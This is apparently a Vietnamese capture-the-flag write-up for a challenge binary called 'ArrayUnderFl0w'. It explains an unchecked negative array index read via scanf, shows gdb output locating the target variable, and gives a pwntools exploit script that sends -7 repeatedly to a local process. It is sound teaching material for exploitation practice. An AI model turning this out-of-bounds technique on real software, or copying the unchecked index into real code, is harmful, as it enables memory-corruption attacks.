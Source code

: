 # 0x01 Vulnerability 

Ý tưởng chính của bài toán như sau
- Tạo số random với seed được lấy từ `/dev/urandom`. Ở đây, mình không khai thác được gì từ chi tiết này. 
- Chúng ta có một mảng 0x1000 phần tử và 10 lượt chơi game. Mỗi lượt chơi, mình phải đoán trúng `index` mà chương trình đã random. 
- Nếu đoán trúng, mình sẽ cộng thêm được 1 điểm và 1 lượt chơi nữa. 

Như chúng ta đã phân tích ở trên, bài toán này không thể khai thác ở random. Chúng ta quan sát kỹ hơn source code sẽ thấy có bug OOB ở đây. 

```c
scanf("%d", &inp)
.....
if (nums[inp] == 1) {
  printf("u are brilliant!\nChance++\n");
  rounds += 1;
  chances += 1;

  if (rounds >= MAXROUND)
    win();

} else {
  printf("Wrong!\n");
}
```

Do hàm `scanf()` không kiểm tra giá trị của `inp`, dẫn tới mình có thể nhập giá trị âm cho `inp`. Đồng nghĩa với việc mình sẽ có cơ hội "thao túng" chương trình. 


Mình sẽ thử nhập `inp = -1` để xem thử mảng `nums` sẽ trỏ đi tới đâu. Tiếp tục đặt breakpoint tại vị trí 
```sh
=> 0x0000555555555417 <+202>:   lea    rax,[rip+0x2c62]        # 0x555555558080 <nums>
   0x000055555555541e <+209>:   mov    eax,DWORD PTR [rdx+rax*1]
   0x0000555555555421 <+212>:   cmp    eax,0x1
```

chúng ta biết được địa chỉ mảng `nums` bằng 0x555555558080. 2 câu lệnh tiếp theo sẽ lấy giá trị của `nums[inp]` gán cho `$eax` rồi đem đi so sánh với 0x1.\
Chúng ta chỉ cần quan tâm tới `rdx+rax*1` vì đây chính là địa chỉ của `inp`. 

```sh
gef➤  x/x $rdx + $rax*1
0x55555555807c: 0x00000000
```

Từ đây, ta đã biết được địa chỉ `inp` bằng 0x55555555807c và từ chương trình debug, ta có địa chỉ biến `chances` bằng 0x555555558064. 

## 0x02 Plan

Như phân tích ở trên, chúng ta hoàn toàn "thao túng" được biến `chances`, nhưng nó sẽ giúp được cái gì? 

Nếu như ta đoán sai 8 lần, `chances` sẽ bằng 2. Vào game, `chances` bị trừ đi 1, lúc này, mình sẽ trỏ `inp` tới `chances` và sẽ thỏa mãn điều kiện 
```c
  chances -= 1;
  ......
  if (nums[inp] == 1) {
    printf("u are brilliant!\nChance++\n");
    rounds += 1;
    chances += 1;

    if (rounds >= MAXROUND)
      win();
  } else {
    printf("Wrong!\n");
  }
```
Từ đó, chúng ta có được `rounds = 0` và `chances = 2`. Bây giờ, ta chỉ cần spam `inp` tới `chances` thì sẽ có đáp án. 

Vậy phải nhập giá trị bao nhiêu để `inp` trỏ tới được `chances`. Nhận thấy, với `inp = -1`, con trỏ ngay tới trước mảng `nums`. Vậy giá trị thỏa mãn là $(0x555555558080 - 0x555555558064) / 4 = 7$

## 0x03 Exploit

```python
#!/usr/bin/env python3

from pwn import *

context.binary = elf = ELF('./ArrayUnderFl0w', checksec = False)
p = process(elf.path)

p.recvline()
p.recvline()
p.sendline(b'-7')

for i in range(7):
  p.recvline()
  p.recvline()  
  p.recvline()  
  p.sendline(b'-7')

for i in range(10):
  p.recvline()
  p.recvline()  
  p.recvline()  
  p.sendline(b'-7')

p.interactive()
```